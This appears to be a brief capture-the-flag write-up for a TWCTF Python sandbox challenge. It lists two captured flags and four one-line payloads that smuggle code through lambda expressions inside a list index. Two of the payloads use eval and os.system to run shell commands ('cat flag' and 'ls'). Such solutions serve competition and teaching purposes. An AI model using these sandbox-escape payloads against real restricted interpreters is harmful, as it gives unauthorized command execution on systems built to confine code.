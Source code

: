 * By Kaibro , Djosix
#TWCTF{go_to_next_challenge_running_on_port_30002}
#TWCTF{baby_sandb0x_escape_with_pythons}

```python
[1][((lambda: print('GGININDER'))() and 0) or 0]
[1][((lambda: sys.stdout.write('GGININDER'))() and 0) or 0]
[1][((lambda: eval("__import__('os').system('cat flag')"))() and 0) or 0]
[1][((lambda: eval("__import__('os').system('ls')"))() and 0) or 0]
```